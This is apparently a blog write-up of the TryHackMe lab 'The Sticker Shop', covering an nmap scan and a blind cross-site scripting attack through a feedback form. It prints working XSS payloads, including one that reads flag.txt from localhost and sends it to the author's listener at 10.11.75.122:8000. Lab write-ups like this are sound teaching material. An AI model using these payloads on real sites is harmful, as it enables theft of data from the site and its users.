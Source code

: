 ```yaml
---
title: TryHackMe - The Sticker Shop
author: rene
description: #
categories: [TryHackMe]
tags: [web, xss]     # TAG names should always be lowercase
render_with_liquid: false
image:
    path: /images/tryhackme_the_sticker_shop/room_image.png
---
```

Can you exploit the sticker shop in order to capture the flag?

[![Tryhackme Room Link](/images/tryhackme_the_sticker_shop/room_card.png){: width="300" height="300" .shadow}](https://tryhackme.com/room/thestickershop){: .center }

Your local sticker shop has finally developed its own webpage. They do not have too much experience regarding web development, so they decided to develop and host everything on the same computer that they use for browsing the internet and looking at customer feedback. Smart move!

Let’s start by scanning open ports:

```console
nmap -T4 -n -sC -sV -Pn -p- 10.10.10.243
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b2:54:8c:e2:d7:67:ab:8f:90:b3:6f:52:c2:73:37:69 (RSA)
|   256 14:29:ec:36:95:e5:64:49:39:3f:b4:ec:ca:5f:ee:78 (ECDSA)
|_  256 19:eb:1f:c9:67:92:01:61:0c:14:fe:71:4b:0d:50:40 (ED25519)
8080/tcp open  http    Werkzeug httpd 3.0.1 (Python 3.8.10)
|_http-title: Cat Sticker Shop
|_http-server-header: Werkzeug/3.0.1 Python/3.8.10
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

As the backup http port is open we can visit the website via `10.10.10.243:8080`

Let’s try to visit `10.10.10.243:8080/flag.txt`
![Slash Flag.txt](/images/tryhackme_the_sticker_shop/slash-flagtxt.png){: width="600" height="450" .shadow}


Let's visit Feedback subpage
![Submit Page](/images/tryhackme_the_sticker_shop/form.png){: width="600" height="450" .shadow}

Let's try some XSS

Let's host a python server and try to fetch our attacker machine via script
```console
python3 -m http.server 8000
```

And Submit our script

```console
</textarea><script>fetch('http://10.11.75.122:8000');</script>
```

We've got a response

![Submit Page](/images/tryhackme_the_sticker_shop/xss_to_myself.png){: width="600" height="450" .shadow}

Now we can try to craft a payload which will look like this
```console
</textarea><script>async function a() {const res1 = await fetch('http://127.0.0.1:8080/flag.txt');const b = await res1.text();const res2 = await fetch('http://10.11.75.122:8000?a=' + b);}a();</script>
```

##### Breakdown:

1. Fetches `flag.txt` from `http://127.0.0.1:8080/flag.txt`.
2. Reads its contents as text.
3. Sends the stolen content as a query parameter (`a=<OUR_FLAG>`) to `http://10.11.75.122:8000` (Our Attacker Machine).

Which will give us the flag

![Submit Page](/images/tryhackme_the_sticker_shop/flag.png){: width="600" height="450" .shadow}

---

<style>
.center img {
  display:block;
  margin-left:auto;
  margin-right:auto;
}
</style>